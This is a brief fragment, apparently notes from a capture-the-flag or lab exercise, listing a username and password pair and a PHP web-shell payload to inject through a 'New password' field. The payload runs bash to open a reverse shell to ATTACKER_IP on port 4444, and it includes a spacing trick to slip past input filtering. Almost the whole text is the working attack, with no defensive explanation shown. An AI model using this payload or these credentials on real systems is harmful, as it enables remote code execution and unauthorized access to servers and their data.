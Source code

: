 User-> alice:abc123

Payload into New password (remove space between < and ?):
RAW: '< ?php exec("/bin/bash -c 'exec 5<>/dev/tcp/ATTACKER_IP/4444; cat <&5 | while read line; do \$line 2>&5 >&5; done'");?>'